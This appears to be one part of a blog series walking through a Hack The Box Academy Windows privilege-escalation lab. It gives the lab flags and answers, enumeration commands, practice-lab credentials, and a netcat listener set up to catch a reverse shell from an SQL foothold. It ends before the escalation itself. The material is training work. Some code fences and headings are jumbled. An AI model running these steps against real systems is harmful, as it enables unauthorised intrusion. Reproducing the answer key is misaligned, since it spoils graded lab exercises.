Welcome to **Part 21** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Windows Privilege Escalation** (Tier II • Medium • Offensive). We break down the underlying mechanics of local Windows privilege escalation, service misconfigurations, unquoted service paths, weak permissions, token manipulation (Potato exploits), UAC bypasses, and registry hijacks, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-20-server-side-attacks/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 20: Server-Side Attacks (SSRF, SSTI & XXE)</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 21 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-22-pivoting-tunneling-and-port-forwarding/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 22: Pivoting, Tunneling & Port Forwarding</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Windows Privilege Escalation` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/67](https://academy.hackthebox.com/module/67) |
| **Curriculum Tier & Difficulty** | `Tier II` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 21 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Service Misconfiguration Abuse**: Exploits unquoted service paths, insecure service binary permissions, and weak service configurations (`sc.exe config`).
* **Token Privileges & Potato Exploits**: Weaponizes `SeImpersonatePrivilege` and `SeAssignPrimaryToken` using RoguePotato, PrintSpoofer, and GodPotato.
* **User Account Control (UAC) Bypasses**: Identifies auto-elevating Windows binaries and hijacks registry keys (`hkcu\software\classes`) to bypass UAC prompts.
* **DLL Hijacking**: Injects malicious DLLs into search paths of elevated executables missing standard library dependencies.
* **AlwaysInstallElevated & Credential Harvesting**: Exploits MSI installer registry flags and extracts stored credentials from unattended installation scripts.

## Executive Summary & Assessment Scope

Gaining a low-privileged shell on a Windows system is only the starting point. Achieving complete host control requires escalating privileges to `NT AUTHORITY\SYSTEM` or local administrator by auditing host misconfigurations, service permissions, and kernel tokens.

This module provides a battle-tested roadmap for Windows local privilege escalation. We analyze automated tools (WinPEAS, Seatbelt), manually inspect service permissions, execute potato token impersonation attacks, bypass UAC controls, and secure full system control, validating every flag.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Windows Privilege Escalation

> **Lab Question (Page 1)**: What is the IP address of the other NIC attached to the target host?
>
> **Flag / Answer**: `172.16.20.45`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
xfreerdp /v:<Target IP> /u:<username> /p:<password>
```
/dynamic-resolution

Getting the Lay of the Land
Situational Awareness:
Question: What is the IP address of the other NIC attached to the target host?
Answer: 172.16.20.45
Method: login to the Windows target machine, open cmd and run the
command:
ipconfig


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


> **Lab Question (Page 2)**: What executable other than cmd.exe is blocked by AppLocker?
>
> **Flag / Answer**: `powershell_ise.exe`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we run the powershell command:
Get-AppLockerPolicy -Effective | select -ExpandProperty
RuleCollections


There are 2 rules with 'Action: Deny' – one which belongs to the cmd.exe
(which we are instructed to exclude), and the other is 'powershell_ise.exe'.


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


### Initial Enumeration

> **Lab Question (Page 3)**: What non-default privilege does the htb-student user have?
>
> **Flag / Answer**: `SeTakeOwnershipPrivilege`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

login to the target Windows machin, and on powershell AS
ADMINISTRATOR, run the command:
```bash
whoami /priv
```
we will get this list of privileges, we can see the privilege
'SeTakeOwnershipPrivilege':

The privilege allows the user to take ownership for every resource within the
machine (file, folder, registry key, etc..).
Now, Lets run the same command from NORMAL powershell:

It's not there.
The reason that the non-default privilege appears on administrator powershell
and not normal one, is that the administrator powershell runs with a security
token that includes additional privileges that are not present in a standard user
token – which also includes the 'SeTakeOwnershipPrivilege'.


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


### to look for members within 'Backup Operators' group

> **Lab Question (Page 4)**: Who is a member of the Backup Operators group?
>
> **Flag / Answer**: `sarah`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets run the powershell command:
```bash
net localgroup "Backup Operators"
```
to look for members within 'Backup Operators' group:


Question: What service is listening on port 8080 (service name not the
executable)?
Answer: Tomcat8
Method: we will start by looking for the connection that runs on port 8080
with the powershell command:
netstat -ano | findstr 8080
where netstat is a command that displays network connections. With the flags:

We are looking for the network connection running on port 8080 (hence the
'findstr':

We can observe that the process (service in this case) ID that operates the port
8080 is 2184.
Lets see what service has this PID.


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


*_Figure 4.3 — Lab execution and output verification (Page 4)_*


### windows icon, then select task manager)

> **Lab Question (Page 5)**: What user is logged in to the target host?
>
> **Flag / Answer**: `sccm_svc`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we run the command (cmd or powershell, doesn't matters):
query user


There is 1 user logged in, in addition for our own.

Question: What type of session does this user have?
Answer: console
Method: on the same command's output above, look one column to the right.


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


*_Figure 5.3 — Lab execution and output verification (Page 5)_*


### Communication with Processes

> **Lab Question (Page 6)**: What service is listening on 0.0.0.0:21? (two words)
>
> **Flag / Answer**: `FileZilla Server`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will conduct the same solution process we did in the previous
section (third question) when determining the service running on port 8080.
First, we will run the PowerShell command to get the PID of the service utilizing
the port 21 and listening on all interfaces:
netstat -ano | findstr 0.0.0.0:21
the PID is 1468


The next powershell command is to discover the service name from the PID:
Get-WmiObject -Query "SELECT * FROM Win32_Service WHERE
ProcessId = 1468" | Select-Object -Property Name,
DisplayName


Question: Which account has WRITE_DAC privileges over the
\pipe\SQLLocal\SQLEXPRESS01 named pipe?
Answer: NT SERVICE\MSSQL$SQLEXPRESS01
Method: we will use the tool 'AccessChk' (sys-internal tool provided for us
within the target machine). this tool can check which users have what rights to
what resources (in this case – pipes (a method to transfer data between
processes, in windows pipes can be named and represented as objects)).
'WRITE_DAC' - Write Discretionary Access Control is a right that allows the user
to modify said objects, granting them greater control on the pipe:


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*



*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


*_Figure 7.3 — Lab execution and output verification (Page 7)_*


#### Technical Methodology & Exploit Execution:

accesschk.exe -accepteula -w \pipe\SQLLocal\SQLEXPRESS01 -v


We can spot the 'WRITE_DAC' by the arrow. And see it a right of the account
'NT SERVICE\MSSQL$SQLEXPRESS01', which is a service account used by SQL
Server ('RW' stands for READ-WRITE).


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


### SeImpersonate and SeAssignPrimaryToken

> **Lab Question (Page 9)**: Escalate privileges using one of the methods shown in this section. Submit the contents of the flag file located at c:\Users\Administrator\Desktop\SeImpersonate\flag.txt
>
> **Flag / Answer**: `F3ar_th3_p0tato!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

the first thing we will notice that the usual RDP login to the target
Windows machine with the provided credentials will fail:

We will have to find another way for login to the machine.
The sql-based credentials and the section guide of course give heavy hints for
the right method, but lets run 'nmap' anyway to be sure:
```bash
nmap 10.129.43.43 -sV -p 1-7500
```


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


### run 'ls' to confirm directory creation

There several available other options, lets take the one 'implied' by the section
guide and go to port 1433 sql connection.
Now, within the pwnbox there is a built in 'mssqlclient' tool, however its
malfunctioning, we will have to manually download the tool by ourself (from
the link just above), and set it up in a python virtual environment (venv) with
the necessary modules for it to work.

So, on the pwnbox, first lets make a new directory called 'mssqlclient1', then
```bash
run 'ls' to confirm directory creation:
```
mkdir mssqlclient1
```bash
ls | grep mssqlclient1
```


Next: download the 'mssqlclient.py' tool from the GitHub link above to the
created directory:


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


### After the download, run the commands

*note, to differentiate the existing built in 'mssqlclient' to the 'mssqlclient' we
just downloaded, I called it 'mssqlclient1.py'. *
After the download, run the commands:
```bash
cd mssqlclient1
```
ls
to move to our created directory, and confirm download:


The next step, is to create python virtual environment, and install there the
```bash
python module 'impacket'.
```
We will run the sequence of commands:
```bash
python3 -m venv impacket-env
```
source impacket-env/bin/activate
pip install impacket


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


### in it

the commands will create a virtual environment in our 'mssqlclient1' directory,
activate it, and install the module 'impacket' in it.


When done, we can run the downloaded 'mssqlclient1.py' with
'sql_dev:Str0ng_P@ssw0rd!' credentials on the target Windows machine with
the  command
```bash
python3 mssqlclient1.py sql_dev@<target-IP> -windows-auth
```
we will be prompted for password. Enter the password.

And we are connected to the SQL based shell on the target machine.
To enhance shell capabilities, we will insert in it reverse shell command to
netcat listener.

So we will open a new terminal for the netcat listnener on port 4444, and run
in it:
```bash
nc -lnvp 4444
```
*port 4444 was arbitrary chosen. *


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


